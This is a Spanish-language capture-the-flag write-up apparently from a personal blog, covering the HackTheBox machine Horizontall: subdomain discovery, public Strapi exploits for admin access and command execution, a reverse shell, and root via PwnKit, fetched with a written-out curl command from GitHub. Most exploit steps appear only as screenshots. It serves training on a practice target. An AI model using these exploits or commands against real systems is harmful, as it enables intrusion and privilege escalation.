```yaml
---
layout: single
title: Horizontall - HackTheBox
excerpt: "Comprometemos la máquina Horizontall de HackTheBox mediante reconocimiento, descubrimiento de subdominios, explotación de Strapi y escalada de privilegios usando PwnKit, obteniendo acceso tanto al usuario como a root"
date: 2025-04-23
classes: wide
header:
  teaser: /assets/images/Horizontall/Horizontall.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Red Team
tags:  
  - PwnKit
  - Strapi Exploit
  - Laravel
---
```


![](/assets/images/Horizontall/Horizontall.png){:style="max-width:450px;height:auto;"}

## Resumen

En esta máquina de nivel medio, realizamos un escaneo con nmap y descubrimos servicios en los puertos 22 (SSH) y 80 (HTTP). Mediante herramientas como GoBuster, encontramos un subdominio que nos lleva a un panel de administración corriendo Strapi en versión beta, el cual explotamos para conseguir credenciales y acceso al sistema. Luego, aprovechamos una vulnerabilidad RCE para ejecutar comandos y obtener una reverse shell. Finalmente, escalamos privilegios explotando Laravel con PwnKit, logrando acceso como root.

## Reconocimiento

Realizamos un escaneo de puertos con nmap para identificar los servicios disponibles. También ejecutamos scripts básicos de reconocimiento con nmap:

![](/assets/images/Horizontall/Reconocimiento-Puertos-Scripts.png)

El servidor expone los siguientes servicios:

- SSH en el puerto 22

- HTTP en el puerto 80

## Página Web

Al hacer el reconocimiento del puerto 80, nmap nos dice que no podemos seguir el redireccionamiento hacia 'horizontall.htb'. Esto lo solucionamos añadiendo el dominio en el archivo '/etc/hosts':

![](/assets/images/Horizontall/Hosts-1.png)

El servicio web en el puerto 80:

![](/assets/images/Horizontall/Web.png)

## Shell

Haciendo uso de la herramienta 'GoBuster' conseguimos descubrir un subdominio:

![](/assets/images/Horizontall/GoBuster-1.png)

El subdominio lo añadimos al archivo '/etc/hosts':

![](/assets/images/Horizontall/Hosts-2.png)

Nos dirigimos al subdominio:

![](/assets/images/Horizontall/Web-Subdomain.png)

Como no hay nada interesante, vamos a volver a hacer uso de la herramienta 'GoBuster':

![](/assets/images/Horizontall/GoBuster-2.png)

Descubrimos un panel administrador:

![](/assets/images/Horizontall/Admin-Panel.png)

Vemos que usa una versión de 'strapi' en beta:

![](/assets/images/Horizontall/Strapi-Version.png)

Haciendo uso de la herramienta 'searchsploit', verificamos que existen algunos exploits para esta versión:

![](/assets/images/Horizontall/Searchsploit.png)

Lo descargamos y lo ejecutamos:

![](/assets/images/Horizontall/Exploit-Strapi.png)

Nos da unas credenciales, así que vamos a iniciar sesión:

![](/assets/images/Horizontall/Admin-Panel-Home.png)

No hay nada interesante en el panel administrador, copiamos el JWT y volvemos a buscar otro exploit:

![](/assets/images/Horizontall/Searchsploit-RCE.png)

Vemos que hay disponible un exploit que nos proporciona la posibilidad de ejecutar comandos.

Nos traemos el exploit y lo ejecutamos con un 'id' como prueba:

![](/assets/images/Horizontall/RCE.png)

Como ya tenemos la posibilidad de ejecutar comandos, vamos a obtener la bandera.

La bandera 'User' la encontramos en el directorio 'home' del usuario 'developer':

![](/assets/images/Horizontall/User-Flag.png)

Nos ponemos por escucha y ejecutamos el exploit para hacer una reverse shell:

![](/assets/images/Horizontall/Rev-Shell-Kill.png)

Hay un proceso con el PID '1975' que nos expulsa, tenemos que matar el proceso.

En la raiz '/' existe un archivo con el nombre '/pid' que cada vez que es ejecutado, da un pid distinto.

Con el siguiente comando que vamos a ejecutar, ejecutamos el archivo '/pid' para que nos de un 'pid', para matarlo y lograr una reverse shell estable:

![](/assets/images/Horizontall/Reverse-Shell.png)

Hacemos el tratamiento de la tty:

    script -c bash
    ctrl + z

    stty raw -echo; fg
                reset
        xterm

    export TERM=xterm SHELL=bash
    stty rows 39 columns 161 # tty -a para saber las filas y columnas

## Escalada de Privilegios

Hacemos un curl en 'http://127.0.0.1:8000', podremos observar que nos da la información de que esta corriendo un 'Laravel v8 (PHP v7.4.18)', esto nos lleva a una herramienta llamada 'PwnKit', ejecutamos lo siguiente en nuestra máquina:

    curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

Ahora lo pasamos y lo ejecutamos:

![](/assets/images/Horizontall/Exploit-Root.png)

La bandera 'Root' se encuentra en el directorio 'home' del usuario 'root':

    9dd7d77e20f343c5a480d2e500e85d6e

### Conclusión

Horizontall es una máquina que destaca la importancia del reconocimiento profundo, incluyendo descubrimiento de subdominios y paneles ocultos. El uso de exploits públicos para vulnerabilidades conocidas en CMS como Strapi y frameworks como Laravel demuestra cómo configuraciones inseguras y software desactualizado pueden comprometer completamente un sistema. Es un excelente ejemplo práctico de explotación web y escalada local.
